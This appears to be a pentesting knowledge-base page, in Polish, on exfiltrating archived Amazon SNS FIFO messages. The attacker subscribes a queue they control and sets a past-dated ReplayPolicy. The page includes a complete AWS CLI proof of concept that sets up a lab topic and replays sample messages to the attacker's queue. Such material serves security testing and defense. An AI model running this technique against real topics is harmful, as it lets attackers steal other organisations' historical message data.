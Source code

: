 # SNS FIFO Archive Replay Exfiltration via Attacker SQS FIFO Subscription

{{#include ../../../../banners/hacktricks-training.md}}

Wykorzystywanie archiwizacji wiadomości w Amazon SNS FIFO topic do odtworzenia i eksfiltracji wcześniej opublikowanych wiadomości do kontrolowanej przez atakującego kolejki Amazon SQS FIFO poprzez ustawienie ReplayPolicy subskrypcji.

- Usługa: Amazon SNS (FIFO topics) + Amazon SQS (FIFO queues)
- Wymagania: Topic musi mieć włączony ArchivePolicy (archiwizacja wiadomości). Atakujący może Subscribe do topicu i ustawić atrybuty na swojej subskrypcji. Atakujący kontroluje kolejkę SQS FIFO i umożliwia topicowi wysyłanie wiadomości.
- Skutek: Historyczne wiadomości (opublikowane przed subskrypcją) mogą zostać dostarczone do endpointu atakującego. Odtworzone dostawy są oznaczone jako Replayed=true w SNS envelope.

## Warunki wstępne
- SNS FIFO topic z włączoną archiwizacją: `ArchivePolicy` (np. `{ "MessageRetentionPeriod": "2" }` dla 2 dni).
- Atakujący ma uprawnienia do:
- `sns:Subscribe` na docelowym topicu.
- `sns:SetSubscriptionAttributes` na utworzonej subskrypcji.
- Atakujący posiada kolejkę SQS FIFO i może dołączyć politykę kolejki pozwalającą `sns:SendMessage` z ARN topicu.

## Minimalne uprawnienia IAM
- Na topicu: `sns:Subscribe`.
- Na subskrypcji: `sns:SetSubscriptionAttributes`.
- Na kolejce: `sqs:SetQueueAttributes` dla polityki, oraz polityka kolejki pozwalająca `sns:SendMessage` z ARN topicu.

## Atak: Odtworzenie zarchiwizowanych wiadomości do atakującej kolejki SQS FIFO
Atakujący subskrybuje swoją kolejkę SQS FIFO do ofiary SNS FIFO topic, a następnie ustawia `ReplayPolicy` na znacznik czasu z przeszłości (w ramach okresu retencji archiwum). SNS natychmiast odtwarza pasujące zarchiwizowane wiadomości do nowej subskrypcji i oznacza je `Replayed=true`.

Uwagi:
- Znacznik czasu użyty w `ReplayPolicy` musi być >= `BeginningArchiveTime` topicu. Jeśli jest wcześniejszy, API zwraca `Invalid StartingPoint value`.
- Dla SNS FIFO `Publish` musisz podać `MessageGroupId` (oraz albo dedup ID, albo włączyć `ContentBasedDeduplication`).

<details>
<summary>Pełny POC CLI (us-east-1)</summary>
```bash
REGION=us-east-1
# Compute a starting point; adjust later to >= BeginningArchiveTime if needed
TS_START=$(python3 - << 'PY'
from datetime import datetime, timezone, timedelta
print((datetime.now(timezone.utc) - timedelta(minutes=15)).strftime('%Y-%m-%dT%H:%M:%SZ'))
PY
)

# 1) Create SNS FIFO topic with archiving (2-day retention)
TOPIC_NAME=htreplay$(date +%s).fifo
TOPIC_ARN=$(aws sns create-topic --region "$REGION" \
--cli-input-json '{"Name":"'"$TOPIC_NAME"'","Attributes":{"FifoTopic":"true","ContentBasedDeduplication":"true","ArchivePolicy":"{\"MessageRetentionPeriod\":\"2\"}"}}' \
--query TopicArn --output text)

echo "Topic: $TOPIC_ARN"

# 2) Publish a few messages BEFORE subscribing (FIFO requires MessageGroupId)
for i in $(seq 1 3); do
aws sns publish --region "$REGION" --topic-arn "$TOPIC_ARN" \
--message "{\"orderId\":$i,\"secret\":\"ssn-123-45-678$i\"}" \
--message-group-id g1 >/dev/null
done

# 3) Create attacker SQS FIFO queue and allow only this topic to send
Q_URL=$(aws sqs create-queue --queue-name ht-replay-exfil-q-$(date +%s).fifo \
--attributes FifoQueue=true --region "$REGION" --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region "$REGION" \
--attribute-names QueueArn --query Attributes.QueueArn --output text)

cat > /tmp/ht-replay-sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$TOPIC_ARN"}}}]}
JSON
# Use CLI input JSON to avoid quoting issues
aws sqs set-queue-attributes --region "$REGION" --cli-input-json "$(python3 - << 'PY'
import json, os
print(json.dumps({
'QueueUrl': os.environ['Q_URL'],
'Attributes': {'Policy': open('/tmp/ht-replay-sqs-policy.json').read()}
}))
PY
)"

# 4) Subscribe the queue to the topic
SUB_ARN=$(aws sns subscribe --region "$REGION" --topic-arn "$TOPIC_ARN" \
--protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)

echo "Subscription: $SUB_ARN"

# 5) Ensure StartingPoint is >= BeginningArchiveTime
BEGIN=$(aws sns get-topic-attributes --region "$REGION" --topic-arn "$TOPIC_ARN" --query Attributes.BeginningArchiveTime --output text)
START=${TS_START}
if [ -n "$BEGIN" ]; then START="$BEGIN"; fi

aws sns set-subscription-attributes --region "$REGION" --subscription-arn "$SUB_ARN" \
--attribute-name ReplayPolicy \
--attribute-value "{\"PointType\":\"Timestamp\",\"StartingPoint\":\"$START\"}"

# 6) Receive replayed messages (note Replayed=true in the SNS envelope)
aws sqs receive-message --queue-url "$Q_URL" --region "$REGION" \
--max-number-of-messages 10 --wait-time-seconds 10 \
--message-attribute-names All --attribute-names All
```
</details>

## Wpływ
**Potencjalny wpływ**: Atakujący, który może zasubskrybować SNS FIFO topic z włączonym archiwizowaniem i ustawić `ReplayPolicy` w swojej subskrypcji, może natychmiast odtworzyć i exfiltrate historyczne wiadomości opublikowane w tym topicu, nie tylko wiadomości wysłane po utworzeniu subskrypcji. Dostarczone wiadomości zawierają flagę `Replayed=true` w kopercie SNS.

{{#include ../../../../banners/hacktricks-training.md}}
